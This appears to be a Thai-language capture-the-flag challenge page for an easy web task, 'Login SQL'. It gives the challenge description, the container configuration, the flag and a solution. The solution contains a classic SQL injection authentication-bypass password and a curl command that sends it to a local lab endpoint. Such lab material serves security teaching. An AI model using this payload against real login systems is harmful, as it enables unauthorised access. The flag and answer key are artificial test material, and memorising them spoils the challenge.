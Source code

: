 # Login SQL

| Category | Difficulty | Point |
| :-: | :-: | :-: |
| Web Application | Easy | 100 |

ระบบ login อย่างง่ายที่เขียนขึ้นมาสำหรับเรียนรู้ แต่ด้วยความที่ความรู้และประสบการณ์ที่น้อย เขาจึงพลาดเรื่องความปลอดภัยอะไรบางอย่างไป

คุณช่วย login ด้วย username `admin` หน่อยได้ไหม?

Format: `CSUBRU{...}`

---

## Configuration

| Name | Value |
| :- | :- |
| Title | Login SQL |
| Type | Dynamic Container |
| Category | Web |
| Max Attempts Allowed | unlimited |
| Blood Bonus | Enable |
| Container Image | ic-login-sql |
| Service Port | 8080 |
| CPU Limit (0.1 CPUs) | 1 |
| Memory Limit (MB) | 128 |
| Storage Limit (MB) | 128 |

[Configuration]

### Flags

- `CSUBRU{s1mpl3_sq1_1nj3ct10n_[TEAM_HASH]}`

---

## Analysis

username: `admin` password: `' OR 1=1 --` ในการ bypass

ใน server ตัว password จะ random ใหม่ทุกๆครั้ง จึงเป็นไปไม่ได้ที่จะรู้ password

```sh
curl -v -X POST http://localhost:8080/api/login \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"admin\",\"password\":\"' OR 1=1 --\"}"
```
